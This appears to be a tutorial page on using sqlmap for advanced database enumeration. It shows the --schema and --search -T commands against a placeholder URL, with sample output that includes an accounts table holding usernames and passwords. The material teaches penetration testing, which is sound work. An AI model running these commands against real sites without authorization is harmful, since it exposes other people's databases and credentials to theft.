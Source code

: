 
# Advanced Database Enumeration

## DB Schema Enumeration

To retrieve the structure of all tables for a complete overview of the database architecture, use the `--schema` switch:

```bash
sqlmap -u "http://www.example.com/?id=1" --schema
```

**Example Output:**

```plaintext
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
```

## Searching for Data

### Searching for Tables
To find all table names containing a specific keyword (e.g., `user`):

```bash
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

**Example Output:**

```plaintext
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+
```

